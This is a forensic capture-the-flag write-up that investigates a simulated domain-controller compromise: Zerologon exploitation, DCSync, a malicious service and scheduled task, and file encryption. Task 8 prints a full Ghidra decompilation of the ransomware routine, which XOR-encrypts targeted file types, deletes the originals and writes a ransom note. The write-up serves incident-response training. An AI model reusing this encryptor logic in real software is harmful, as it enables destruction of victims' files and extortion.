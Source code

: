 # Sherlock Scenario
You'll notice a lot of our critical server infrastructure was recently transferred from the domain of our MSSP - Forela.local over to Northpole.local. We actually managed to purchase some second hand servers from the MSSP who have confirmed they are as secure as Christmas is! It seems not as we believe christmas is doomed and the attackers seemed to have the stealth of a clattering sleigh bell, or they didn’t want to hide at all!!!!!! We have found nasty notes from the Grinch on all of our TinkerTech workstations and servers! Christmas seems doomed. Please help us recover from whoever committed this naughty attack!

## Task 1 
Question: Which CVE did the Threat Actor (TA) initially exploit to gain access to DC01?
<br>Answer: `CVE-2020-1472`

Using Hayabusa, the evtx directory can be scanned to determine the vulnerability using rules.

```
.\hayabusa-2.11.0-win-x64.exe csv-timeline -d 'C:\HTB\Optinseltrace\optinseltrace5\DC01.northpole.local-KAPE\uploads\auto\C%3A\Windows\System32\winevt' -o results.csv

╔╗ ╔╦═══╦╗  ╔╦═══╦══╗╔╗ ╔╦═══╦═══╗
║║ ║║╔═╗║╚╗╔╝║╔═╗║╔╗║║║ ║║╔═╗║╔═╗║
║╚═╝║║ ║╠╗╚╝╔╣║ ║║╚╝╚╣║ ║║╚══╣║ ║║
║╔═╗║╚═╝║╚╗╔╝║╚═╝║╔═╗║║ ║╠══╗║╚═╝║
║║ ║║╔═╗║ ║║ ║╔═╗║╚═╝║╚═╝║╚═╝║╔═╗║
╚╝ ╚╩╝ ╚╝ ╚╝ ╚╝ ╚╩═══╩═══╩═══╩╝ ╚╝
   by Yamato Security

Start time: 2023/12/29 14:41

Total event log files: 146
Total file size: 261.4 MB

Scan wizard:

✔ Which set of detection rules would you like to load? · 5. All event and alert rules (4270 rules) ( status: * | level: informational+ )
✔ Include deprecated rules? (193 rules) · no
✔ Include unsupported rules? (45 rules) · no
✔ Include noisy rules? (12 rules) · no
✔ Include sysmon rules? (2083 rules) · yes

```

![win1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/98d66849-9602-4023-ba86-26881401ebc6)

Hayabusa mentioned that most critical events happened on 13/12/2022. So I used Timeline Explorer to analyze the csv file from Hayabusa and found a suspicious logon from an unknown user (192.168.68.200) using an exploit called Zerologon.

![image](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/fcc482fe-5133-4a57-9603-bda9ba046a52)

Scrolling further down, the unknown user seems to perform Mimikatz DC Sync multiple times. So I googled it to confirm if it's related to Zerologon and it does!

![image](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c3d0d8de-3535-469d-888f-0d64a8f4aa76)

![win2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/0ebb55bd-a1e0-4838-aff4-14f41c07d7f6)

## Task 2 
Question: What time did the TA initially exploit the CVE? (UTC)
<br>Answer: `2023-12-13 09:24:23`

Reading this [blog](https://0xbandar.medium.com/detecting-the-cve-2020-1472-zerologon-attacks-6f6ec0730a9e) about the CVE, it mentioned an easy way to detect the exploit using the Security.evtx.

> Successful exploitation resulting in a rest of the computer account password and it will be shown in security logs with event id 4742 “A computer account was changed”, password last set change, performed by Anonymous Logon.

![win2 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/8307d503-2500-485b-9f84-9f20da3d1fed)

## Task 3
Question: What is the name of the executable related to the unusual service installed on the system around the time of the CVE exploitation?
<br>Answer: `hAvbdksT.exe`

Since we know the exact timeline for IoC, the executable related to the "vulnerable_to_zerologon" service can be easily found in the System.evtx by filtering the time and eventID.

![win3](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/e54e82e9-45ae-4e87-b078-7484cfeb94d0)

## Task 4 
Question: What date & time was the unusual service start?
<br>Answer: `2023-12-13 09:24:24`

Similar to Task 3, just look for "vulnerable_to_zerologon" service starting.

![win4](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/6dc67f43-deb9-487f-bdd1-4f8b53488d6b)

## Task 5 
Question: What was the TA's IP address within our internal network?
<br>Answer: `192.168.68.200`

Similar to Task 1, the TA's IP address can be identified from the malicious activity.

## Task 6 
Question: Please list all user accounts the TA utilised during their access. (Ascending order)
<br>Answer: `Administrator, Bytesparkle`

Using Hayabusa, we can find out the logon attempts and since we already know the TA's IP address from Task 5, we just have to find the user accounts. So I just filter out the specific IP address to find the second user.

```
.\hayabusa-2.11.0-win-x64.exe logon-summary -d 'C:\HTB\Optinseltrace\optinseltrace5\DC01.northpole.local-KAPE\uploads\auto\C%3A\Windows\System32\winevt\Logs | Select-String 192.168.68.200'
```

![win6](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/676b3958-cdf9-4c7e-9a14-0a66b0fd443a)

To confirm this, we can refer back to Timeline Explorer to analyze the IP address connections.

![image](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/ca59b54b-645e-4024-b962-cef531f01963)

## Task 7 
Question: What was the name of the scheduled task created by the TA?
<br>Answer: `svc_vnc`

Just look for the Microsoft-Windows-TaskScheduler%254Operational.evtx file and filter by eventID 106 (Task registered). Two schedule tasks was created and one of them was suspicious.

![win7](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/f517c46e-1397-4c9d-9741-706dc1b7a367)

## Task 8 
Question: Santa's memory is a little bad recently! He tends to write a lot of stuff down, but all our critical files have been encrypted! Which creature is Santa's new sleigh design planning to use?
<br>Answer: `Unicorn`

Initially, we were given several encrypted files and the encryption program (splunk_svc.dll). So it is obvious we have to perform reverse engineering on splunk_svc.dll to decrypt the files. Using ghidra, I managed to find the malware function that encrypted the files (FUN_180001330).

<details>
<summary>
FUN_180001330
</summary>

```
/* WARNING: Function: _alloca_probe replaced with injection: alloca_probe */
/* WARNING: Globals starting with '_' overlap smaller symbols at the same address */

void FUN_180001330(char *param_1)

{
  undefined4 *_Dst;
  char cVar1;
  undefined8 uVar2;
  undefined4 uVar3;
  undefined4 uVar4;
  undefined4 uVar5;
  undefined4 uVar6;
  undefined4 uVar7;
  undefined4 uVar8;
  undefined4 uVar9;
  undefined4 uVar10;
  undefined4 uVar11;
  undefined4 uVar12;
  undefined8 *puVar13;
  undefined4 *puVar14;
  BOOL BVar15;
  int iVar16;
  undefined4 uVar17;
  uint uVar18;
  undefined4 *_Memory;
  ulonglong uVar19;
  char *pcVar20;
  FILE *_File;
  FILE *_File_00;
  undefined4 *puVar21;
  undefined2 uVar22;
  undefined *puVar23;
  longlong lVar24;
  undefined8 *puVar25;
  undefined2 *puVar26;
  FILE *pFVar27;
  undefined4 *puVar28;
  longlong lVar29;
  undefined4 *puVar30;
  wchar_t *_Src;
  longlong lVar31;
  undefined auStackY_1130 [32];
  char *local_10e0 [69];
  char *local_eb8;
  undefined4 local_ea8;
  undefined2 local_ea4;
  undefined local_e80 [8];
  char local_e78 [799];
  undefined uStack_b59;
  char local_b58 [799];
  undefined8 uStack_839;
  undefined2 uStack_729;
  undefined4 local_338 [192];
  ulonglong local_38;
  
  local_38 = DAT_180005008 ^ (ulonglong)auStackY_1130;
  local_10e0[0] = ".3ds";
  local_10e0[1] = &DAT_18000353c;
  local_10e0[2] = &DAT_180003544;
  local_10e0[3] = &DAT_18000354c;
  local_10e0[4] = &DAT_180003554;
  local_10e0[5] = &DAT_18000355c;
  local_10e0[7] = &DAT_180003560;
  local_10e0[8] = &DAT_180003564;
  local_10e0[9] = &DAT_18000356c;
  local_10e0[10] = &DAT_180003574;
  local_10e0[11] = &DAT_180003578;
  local_10e0[12] = &DAT_180003580;
  local_10e0[13] = &DAT_180003588;
  local_10e0[14] = &DAT_18000358c;
  local_10e0[15] = &DAT_180003594;
  local_10e0[16] = &DAT_18000359c;
  local_10e0[17] = &DAT_1800035a4;
  local_10e0[18] = &DAT_1800035ac;
  local_10e0[19] = &DAT_1800035b4;
  local_10e0[20] = &DAT_1800035bc;
  local_10e0[21] = &DAT_1800035c0;
  local_10e0[22] = &DAT_1800035c4;
  local_10e0[23] = &DAT_1800035cc;
  local_10e0[24] = &DAT_1800035d4;
  local_10e0[25] = &DAT_1800035dc;
  local_10e0[26] = &DAT_1800035e4;
  local_10e0[27] = &DAT_1800035ec;
  local_10e0[28] = &DAT_1800035f4;
  local_10e0[29] = &DAT_1800035fc;
  local_10e0[30] = &DAT_180003604;
  local_10e0[31] = &DAT_18000360c;
  local_10e0[32] = &DAT_180003614;
  local_10e0[33] = &DAT_18000361c;
  local_10e0[34] = &DAT_180003624;
  local_10e0[35] = &DAT_18000362c;
  local_10e0[36] = &DAT_180003634;
  local_10e0[37] = &DAT_180003638;
  local_10e0[38] = &DAT_180003640;
  local_10e0[39] = &DAT_180003648;
  local_10e0[40] = &DAT_180003650;
  local_10e0[41] = &DAT_180003658;
  local_10e0[42] = &DAT_180003660;
  local_10e0[43] = &DAT_180003668;
  local_10e0[44] = &DAT_180003670;
  local_10e0[45] = &DAT_180003678;
  local_10e0[46] = &DAT_180003680;
  local_10e0[47] = &DAT_180003688;
  local_10e0[48] = &DAT_180003690;
  local_10e0[49] = &DAT_180003698;
  local_10e0[50] = &DAT_1800036a0;
  local_10e0[51] = &DAT_1800036a8;
  local_10e0[52] = &DAT_1800036b0;
  local_10e0[53] = ".accdb";
  local_10e0[54] = ".aspx";
  local_10e0[55] = ".avhd";
  local_10e0[56] = ".back";
  local_10e0[57] = ".conf";
  local_10e0[58] = ".disk";
  local_10e0[59] = ".djvu";
  local_10e0[60] = ".docx";
  local_10e0[61] = ".kdbx";
  local_10e0[62] = ".mail";
  local_10e0[63] = ".pptx";
  local_10e0[64] = ".vbox";
  local_10e0[65] = ".vmdk";
  local_10e0[66] = ".vmsd";
  local_10e0[67] = ".vsdx";
  local_10e0[68] = ".work";
  local_eb8 = ".xlsx";
  _Memory = (undefined4 *)FUN_1800010f0(param_1);
  if (_Memory == (undefined4 *)0x0) {
LAB_180001ca6:
    __security_check_cookie(local_38 ^ (ulonglong)auStackY_1130);
    return;
  }
LAB_180001710:
  lVar31 = *(longlong *)(_Memory + 0x4a);
  if (*(int *)(lVar31 + 0x478) == 0) {
    if (*(HANDLE *)(lVar31 + 0x480) == (HANDLE)0xffffffffffffffff) goto LAB_180001c5e;
    BVar15 = FindNextFileW(*(HANDLE *)(lVar31 + 0x480),(LPWIN32_FIND_DATAW)(lVar31 + 0x228));
    if (BVar15 == 0) {
      FindClose(*(HANDLE *)(lVar31 + 0x480));
      *(undefined8 *)(lVar31 + 0x480) = 0xffffffffffffffff;
LAB_180001c5e:
      FUN_180001080(*(void **)(_Memory + 0x4a));
      *(undefined8 *)(_Memory + 0x4a) = 0;
      free(_Memory);
      goto LAB_180001ca6;
    }
  }
  else {
    *(undefined4 *)(lVar31 + 0x478) = 0;
  }
  if ((uint *)(lVar31 + 0x228) == (uint *)0x0) goto LAB_180001c5e;
  _Dst = _Memory + 7;
  _Src = (wchar_t *)(lVar31 + 0x254);
  iVar16 = wcstombs_s((size_t *)local_e80,(char *)_Dst,0x105,_Src,0x105);
  if (iVar16 == 0) {
LAB_1800017c6:
    *(size_t *)(_Memory + 4) = (longlong)local_e80 - 1;
    uVar18 = *(uint *)(lVar31 + 0x228);
    if ((uVar18 & 0x40) == 0) {
      uVar22 = 0x128;
      uVar17 = 0x8000;
      if ((uVar18 & 0x10) != 0) {
        uVar17 = 0x4000;
      }
      _Memory[6] = uVar17;
      uVar17 = 0;
    }
    else {
      _Memory[6] = 0x2000;
      uVar22 = 0x128;
      uVar17 = 0;
    }
  }
  else {
    _Src = (wchar_t *)(lVar31 + 0x45c);
    if (*_Src != L'\0') {
      iVar16 = wcstombs_s((size_t *)local_e80,(char *)_Dst,0x105,_Src,0x105);
    }
    if (iVar16 == 0) goto LAB_1800017c6;
    *(undefined *)_Dst = 0x3f;
    uVar22 = 0;
    *(undefined *)((longlong)_Memory + 0x1d) = 0;
    uVar17 = 0xffffffff;
    *(undefined8 *)(_Memory + 4) = 1;
    _Memory[6] = 0;
  }
  *_Memory = 0;
  _Memory[1] = uVar17;
  uVar19 = 0xffffffffffffffff;
  *(undefined2 *)(_Memory + 2) = uVar22;
  do {
    uVar19 = uVar19 + 1;
  } while (param_1[uVar19] != '\0');
  if (((uVar19 < 1000) && ((*(char *)_Dst != '.' || (*(char *)((longlong)_Memory + 0x1d) != '\0'))))
     && ((*(char *)_Dst != '.' ||
         ((*(char *)((longlong)_Memory + 0x1d) != '.' ||
          (*(char *)((longlong)_Memory + 0x1e) != '\0')))))) {
    lVar31 = 0;
    do {
      pcVar20 = strstr((char *)_Dst,local_10e0[lVar31]);
      if (pcVar20 != (char *)0x0) {
        local_ea8 = 0x616d782e;
        local_ea4 = 0x78;
        pcVar20 = param_1;
        do {
          cVar1 = *pcVar20;
          pcVar20[(longlong)(local_e78 + -(longlong)param_1)] = cVar1;
          pcVar20 = pcVar20 + 1;
        } while (cVar1 != '\0');
        puVar26 = (undefined2 *)(local_e80 + 7);
        do {
          pcVar20 = (char *)((longlong)puVar26 + 1);
          puVar26 = (undefined2 *)((longlong)puVar26 + 1);
        } while (*pcVar20 != '\0');
        *puVar26 = 0x5c;
        puVar23 = local_e80 + 7;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)_Dst + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        lVar24 = 0;
        do {
          pcVar20 = local_e78 + lVar24;
          local_b58[lVar24] = *pcVar20;
          lVar24 = lVar24 + 1;
        } while (*pcVar20 != '\0');
        puVar23 = &uStack_b59;
        do {
          pcVar20 = puVar23 + 1;
          puVar23 = puVar23 + 1;
        } while (*pcVar20 != '\0');
        puVar30 = &local_ea8;
        lVar24 = 0;
        do {
          cVar1 = *(char *)((longlong)puVar30 + lVar24);
          puVar23[lVar24] = cVar1;
          lVar24 = lVar24 + 1;
        } while (cVar1 != '\0');
        FUN_180001020(&DAT_180003754,local_b58,puVar30,_Src);
        pFVar27 = (FILE *)&DAT_180003208;
        _File = fopen(local_e78,"rb");
        if (_File == (FILE *)0x0) {
LAB_180001a69:
          FUN_180001020("\nXOR operation failed!",pFVar27,puVar30,_Src);
        }
        else {
          pFVar27 = (FILE *)&DAT_18000320c;
          _File_00 = fopen(local_b58,"wb");
          if (_File_00 == (FILE *)0x0) goto LAB_180001a69;
          lVar24 = 0;
          while( true ) {
            lVar29 = 0;
            if (lVar24 < 0x10) {
              lVar29 = lVar24;
            }
            uVar18 = fgetc(_File);
            lVar24 = lVar29 + 1;
            if (uVar18 == 0xffffffff) break;
            pFVar27 = _File_00;
            fputc((int)"EncryptingC4Fun!"[lVar29] ^ uVar18,_File_00);
          }
          iVar16 = fclose(_File);
          if ((iVar16 != 0) || (iVar16 = fclose(_File_00), iVar16 != 0)) goto LAB_180001a69;
        }
        _DAT_180005628 = _DAT_180005628 + 1;
        _Src = (wchar_t *)0x0;
        SHGetSpecialFolderPathA((HWND)0x0,(LPSTR)((longlong)&uStack_839 + 1),0,0);
        lVar24 = 5;
        puVar30 = (undefined4 *)
                  "Dear Santa Claus,\n\nIt\'s time for a holiday twist you didn\'t see coming. Yours  truly, the Grinch, has taken over your Christmas operation. Not only have I got m y hands on your list of gift recipients, but I also hold the infamous Naughty List . The world is on the edge of discovering who\'s been less than angelic this year! \n\nTo keep Christmas from turning into a scandal, I demand a ransom of 5,000,000 XMAS tokens. Deposit them into my crypto wallet: GR1NCH-5ANTA-2023XMAS. Delay or n on-compliance will lead to the Naughty List becoming public knowledge, destroying the festive spirit across the globe.\n\nTick tock, Santa. The deadline is midnight  on Christmas Eve. Make the right choice. Together, we can still save Christmas.\n \nSinister holiday wishes,\nThe Grinch"
        ;
        puVar14 = local_338;
        do {
          puVar28 = puVar14;
          puVar21 = puVar30;
          uVar17 = puVar21[1];
          uVar3 = puVar21[2];
          uVar4 = puVar21[3];
          uVar5 = puVar21[4];
          uVar6 = puVar21[5];
          uVar7 = puVar21[6];
          uVar8 = puVar21[7];
          *puVar28 = *puVar21;
          puVar28[1] = uVar17;
          puVar28[2] = uVar3;
          puVar28[3] = uVar4;
          uVar17 = puVar21[8];
          uVar3 = puVar21[9];
          uVar4 = puVar21[10];
          uVar9 = puVar21[0xb];
          puVar28[4] = uVar5;
          puVar28[5] = uVar6;
          puVar28[6] = uVar7;
          puVar28[7] = uVar8;
          uVar5 = puVar21[0xc];
          uVar6 = puVar21[0xd];
          uVar7 = puVar21[0xe];
          uVar8 = puVar21[0xf];
          puVar28[8] = uVar17;
          puVar28[9] = uVar3;
          puVar28[10] = uVar4;
          puVar28[0xb] = uVar9;
          uVar17 = puVar21[0x10];
          uVar3 = puVar21[0x11];
          uVar4 = puVar21[0x12];
          uVar9 = puVar21[0x13];
          puVar28[0xc] = uVar5;
          puVar28[0xd] = uVar6;
          puVar28[0xe] = uVar7;
          puVar28[0xf] = uVar8;
          uVar5 = puVar21[0x14];
          uVar6 = puVar21[0x15];
          uVar7 = puVar21[0x16];
          uVar8 = puVar21[0x17];
          puVar28[0x10] = uVar17;
          puVar28[0x11] = uVar3;
          puVar28[0x12] = uVar4;
          puVar28[0x13] = uVar9;
          uVar17 = puVar21[0x18];
          uVar3 = puVar21[0x19];
          uVar4 = puVar21[0x1a];
          uVar9 = puVar21[0x1b];
          puVar28[0x14] = uVar5;
          puVar28[0x15] = uVar6;
          puVar28[0x16] = uVar7;
          puVar28[0x17] = uVar8;
          uVar5 = puVar21[0x1c];
          uVar6 = puVar21[0x1d];
          uVar7 = puVar21[0x1e];
          uVar8 = puVar21[0x1f];
          puVar28[0x18] = uVar17;
          puVar28[0x19] = uVar3;
          puVar28[0x1a] = uVar4;
          puVar28[0x1b] = uVar9;
          puVar28[0x1c] = uVar5;
          puVar28[0x1d] = uVar6;
          puVar28[0x1e] = uVar7;
          puVar28[0x1f] = uVar8;
          lVar24 = lVar24 + -1;
          puVar30 = puVar21 + 0x20;
          puVar14 = puVar28 + 0x20;
        } while (lVar24 != 0);
        uVar2 = *(undefined8 *)(puVar21 + 0x3c);
        uVar17 = puVar21[0x21];
        uVar3 = puVar21[0x22];
        uVar4 = puVar21[0x23];
        uVar5 = puVar21[0x24];
        uVar6 = puVar21[0x25];
        uVar7 = puVar21[0x26];
        uVar8 = puVar21[0x27];
        puVar28[0x20] = puVar21[0x20];
        puVar28[0x21] = uVar17;
        puVar28[0x22] = uVar3;
        puVar28[0x23] = uVar4;
        uVar17 = puVar21[0x28];
        uVar3 = puVar21[0x29];
        uVar4 = puVar21[0x2a];
        uVar9 = puVar21[0x2b];
        puVar28[0x24] = uVar5;
        puVar28[0x25] = uVar6;
        puVar28[0x26] = uVar7;
        puVar28[0x27] = uVar8;
        uVar5 = puVar21[0x2c];
        uVar6 = puVar21[0x2d];
        uVar7 = puVar21[0x2e];
        uVar8 = puVar21[0x2f];
        puVar28[0x28] = uVar17;
        puVar28[0x29] = uVar3;
        puVar28[0x2a] = uVar4;
        puVar28[0x2b] = uVar9;
        uVar9 = puVar21[0x30];
        uVar10 = puVar21[0x31];
        uVar11 = puVar21[0x32];
        uVar12 = puVar21[0x33];
        puVar28[0x2c] = uVar5;
        puVar28[0x2d] = uVar6;
        puVar28[0x2e] = uVar7;
        puVar28[0x2f] = uVar8;
        uVar17 = puVar21[0x34];
        uVar3 = puVar21[0x35];
        uVar4 = puVar21[0x36];
        uVar5 = puVar21[0x37];
        puVar28[0x30] = uVar9;
        puVar28[0x31] = uVar10;
        puVar28[0x32] = uVar11;
        puVar28[0x33] = uVar12;
        uVar6 = puVar21[0x38];
        uVar7 = puVar21[0x39];
        uVar8 = puVar21[0x3a];
        uVar9 = puVar21[0x3b];
        puVar28[0x34] = uVar17;
        puVar28[0x35] = uVar3;
        puVar28[0x36] = uVar4;
        puVar28[0x37] = uVar5;
        puVar28[0x38] = uVar6;
        puVar28[0x39] = uVar7;
        puVar28[0x3a] = uVar8;
        puVar28[0x3b] = uVar9;
        *(undefined8 *)(puVar28 + 0x3c) = uVar2;
        puVar28[0x3e] = puVar21[0x3e];
        puVar13 = &uStack_839;
        do {
          puVar25 = puVar13;
          puVar13 = (undefined8 *)((longlong)puVar25 + 1);
        } while (*(char *)((longlong)puVar25 + 1) != '\0');
        *(undefined8 *)((longlong)puVar25 + 1) = 0x2e454d444145525c;
        *(undefined4 *)((longlong)puVar25 + 9) = 0x545854;
        pFVar27 = fopen((char *)((longlong)&uStack_839 + 1),"w");
        fputs((char *)local_338,pFVar27);
        fclose(pFVar27);
        remove(local_e78);
      }
      lVar31 = lVar31 + 1;
    } while (lVar31 < 0x45);
    pcVar20 = param_1;
    do {
      cVar1 = *pcVar20;
      pcVar20[(longlong)&uStack_729 + (1 - (longlong)param_1)] = cVar1;
      pcVar20 = pcVar20 + 1;
    } while (cVar1 != '\0');
    puVar26 = &uStack_729;
    do {
      pcVar20 = (char *)((longlong)puVar26 + 1);
      puVar26 = (undefined2 *)((longlong)puVar26 + 1);
    } while (*pcVar20 != '\0');
    *puVar26 = 0x5c;
    puVar26 = &uStack_729;
    do {
      pcVar20 = (char *)((longlong)puVar26 + 1);
      puVar26 = (undefined2 *)((longlong)puVar26 + 1);
    } while (*pcVar20 != '\0');
    lVar31 = 0;
    do {
      cVar1 = *(char *)((longlong)_Dst + lVar31);
      *(char *)((longlong)puVar26 + lVar31) = cVar1;
      lVar31 = lVar31 + 1;
    } while (cVar1 != '\0');
    FUN_180001330((char *)((longlong)&uStack_729 + 1));
  }
  goto LAB_180001710;
}
```

</details>

Analyzing the function, the encryption method was discovered to be a simple XOR with the key "EncryptingC4Fun!". So we can use CyberChef to decrypt the files easily and discover Santa' plan.

![win8](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/a665d12f-a6a4-46cd-8463-bf0f89f06fe7)

![win8 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/fbb5dac6-a162-421f-891b-63dcfd1c6267)

![win8 2](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/4137037d-0797-4c1e-919b-7be3bded88b2)

## Task 9 
Question: Please confirm the process ID of the process that encrypted our files.
<br>Answer: `5828`

Using the output from EVTXCmd and Timeline Explorer, we can filter by the file extension of encrypted files (.xmax) and discover that they were stored in the Microsoft-Windows-UAC-FileVirtualization/Operational channel. Hence, we can analyze the Microsoft-Windows-UAC-FileVirtualization/Operational.evtx file to obtain the process ID.

![win9](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/c1c564be-85e9-4850-9c1b-34527c3094d2)

![win9 1](https://github.com/warlocksmurf/HTB-writeups/assets/121353711/7c5b26f8-53db-4cef-af70-f228c2ccd7c7)
